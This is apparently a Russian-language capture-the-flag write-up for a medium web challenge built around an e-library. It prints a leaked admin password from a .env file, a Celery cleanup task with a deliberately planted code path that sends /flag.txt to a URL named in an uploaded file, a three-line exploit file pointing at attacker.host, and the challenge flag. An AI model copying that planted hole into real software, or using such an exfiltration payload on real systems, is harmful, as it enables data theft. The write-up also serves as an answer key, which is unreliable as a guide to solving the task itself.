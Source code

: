 # web | library | medium

## Информация

> Я создал электронную бибилиотеку, пока она на стадии разработки, но я надеюсь что у меня максимально безопасный сервис и с кодом все хорошо, проверь его на всякий случай, пожалуйста =)


## Подсказка

Если я правильно помню, то admin хотел удалять(очищать) старые книги как-то автоматизированно, через таски, celery таски....

## Деплой

```bash
cd deploy
docker-compose up --build -d
```

## Выдать участникам

public/public.zip

## Описание

в коде сливается пароль админской учетки, при этом новые книги можно загрузить только из панели админа, все книги, которым больше 30 секунд удаляются и вызывается очень странный код - явно создавался для админа, чтобы исполнять код.

## Решение

в .env файле сливается пароль админа

```
SERVER_PORT=8900
EMAIL_HOST_USER=admin@mylibrary.ru
EMAIL_HOST_PASSWORD=to!R>@gq~Q8y2?XVVGe:
                                  
```

посмотрим кусок кода в celery таске cleaner.py - если загрузить bash скрипт, то он исполнится, чтобы было безопаснее, то в код явно уже встроены методы взятия флага и резолва на удаленный хост

```php
def cleaner():
    books_to_delete = Book.objects.filter(created_at__lte=timezone.now() - timezone.timedelta(seconds=30))
  
    deleted_count = 0
  
    for book in books_to_delete:
        file_path = os.path.join(BOOK_STORE, f"{book.uid}.txt")
        try:
            with open(file_path, 'r') as f:
                lines = f.readlines()
                if len(lines) == 3 and '#!/usr/bin/bash' in lines[0] and "cat " in lines[1]:
                    flag = ""

                    with open("/flag.txt", 'r') as f1:
                        for i in f1:
                            flag+=i.replace('\n','')
                    dom = lines[2].replace('\n','')
                    url = f"{dom}/{flag}"
                    requests.get(url, verify=False, timeout=1)
      
          
      
            book.delete()
            deleted_count += 1
  
        except FileNotFoundError:
            print(f"File for {book.title} not found.")
            book.delete()
            deleted_count += 1
```

пример sploit.txt: (именно txt потому что книга!) - его надо загрузить как книгу

```
#!/usr/bin/bash
cat flag
https://attacker.host
```

## Флаг

ctf{1_th1nk_1t_will_b3_e4sy!}
